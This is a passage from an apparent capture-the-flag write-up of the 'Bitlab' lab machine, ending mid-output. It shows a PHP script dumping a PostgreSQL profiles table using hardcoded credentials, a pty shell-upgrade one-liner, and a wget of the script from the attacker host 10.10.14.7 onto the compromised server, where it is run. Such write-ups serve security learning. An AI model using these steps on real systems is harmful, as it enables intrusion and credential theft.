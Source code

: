 ![postgres-before](/assets/img/bitlab/bitlab-postgres-fix-before.png)


```php
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
var_dump(pg_fetch_all($result));
?>
```

To execute this, we can create a file containing this code on the target and run it, or move one over from Kali.

Before I use vi I make my shell better:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'

Ctrl+Z
stty raw -echo
fg
```

I copy the file across with wget then execute it.

```
www-data@bitlab:/dev/shm$ wget http://10.10.14.7/pg-connect.php
--2020-04-07 11:33:25--  http://10.10.14.7/pg-connect.php
Connecting to 10.10.14.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 199 [application/octet-stream]
Saving to: 'pg-connect.php'

pg-connect.php      100%[===================>]     199  --.-KB/s    in 0s      

2020-04-07 11:33:25 (47.2 MB/s) - 'pg-connect.php' saved [199/199]

www-data@bitlab:/dev/shm$ ls 
pg-connect.php
www-data@bitlab:/dev/shm$ php pg-connect.php
array(1) {
  [0]=>
```